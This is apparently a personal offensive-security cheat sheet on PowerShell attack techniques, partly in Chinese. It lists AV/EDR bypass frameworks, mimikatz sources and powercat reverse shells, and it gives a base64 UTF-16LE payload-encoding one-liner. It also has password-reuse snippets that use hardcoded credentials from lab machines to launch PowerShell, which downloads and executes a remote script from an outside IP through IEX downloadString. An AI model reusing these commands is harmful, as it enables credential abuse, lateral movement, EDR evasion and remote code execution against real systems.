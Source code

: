 # powershell

bypass tool&#x20;

github.com/trustedsec/unicorn



framework  &#x20;

nishang 有更新后的invoke-mimikatz  &#x20;

powersploit  不更新了 但是有以前的invoke-mimikatz

可以看看 empire里面的 server/data/module\_source 有时也可以用。

还没有想清楚empire如何跟360等edr对抗



reverse shell powercat



avoid any possible quotation and encoding issues

little endian UTF-16 encoding version.

```
iconv -f ASCII -t UTF-16LE powershell.txt | base64 | tr -d "\n"
```

hash

`get-filehash`

password reuse    need remote manager priv in net user

```
password reuse   need remote manager priv

$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('administrator',$passwd) 
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.17.114/1.ps1')" -Credential $creds
or
new-pssession -computername . -credential $cred  // enter-pssession -computer arkham -credential $cred
enter-pssession 1

$user = "Sniper\Chris"
$pass = "36mEAhz/B8xQ~2VM"
$secstr = New-Object -TypeName System.Security.SecureString
$pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $user, $secstr
Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
sniper\chris

```
